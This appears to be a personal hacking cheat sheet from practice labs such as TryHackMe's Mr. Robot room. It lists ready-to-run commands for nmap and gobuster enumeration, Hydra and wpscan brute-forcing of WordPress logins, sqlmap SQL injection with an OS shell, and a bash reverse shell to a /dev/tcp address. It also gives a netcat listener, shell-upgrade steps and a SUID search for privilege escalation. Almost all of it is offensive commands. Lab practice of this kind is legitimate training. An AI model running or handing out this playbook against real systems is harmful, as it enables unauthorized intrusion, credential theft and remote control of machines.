 ##We are going to do basic of Hacking

#Enumeration
1. nmap -sC-sV <`ip address>
2. nmap -sT <'ip address>
3. nmap -sP <'ip address>

#Enumeration
1. gobuster dir -t 100 -u <`ip address> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

Linux Enum - /opt/LiEnum.sh - Run at Target using wget and http server created

BruteForcing

1. hydra -L fsocity.txt -p mypassword 10.10.186.250 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In:Invalid username"

2. hydra -l Elliot -P fsocity.txt 10.10.186.250 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In:The password you entered for the username Elliot is incorrect."

3. wpscan --url http://10.10.89.214 -t 50 -U elliot -P /home/kali/Documents/tryhackme/mr-robot/fsociety.txt

Sqlmap
1. sqlmap -u 'http://10.129.233.138/dashboard.php?search=any+query' --cookie="PHPSESSID=9qik8dt7ol8fpsbi63t0beft1l"
2. sqlmap -u 'http://10.129.233.138/dashboard.php?search=any+query' --cookie="PHPSESSID=9qik8dt7ol8fpsbi63t0beft1l" --os-shell


reverse shell
1. bash -c "bash -i >& /dev/tcp/10.10.14.161/443 0>&1"

Pty enable
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl Z
stty raw -echo
fg
export TERM=xterm

listen on PC
1. nc -nlvp 4444

Find SUID
1. find / -perm -u=s -type f 2>/dev/null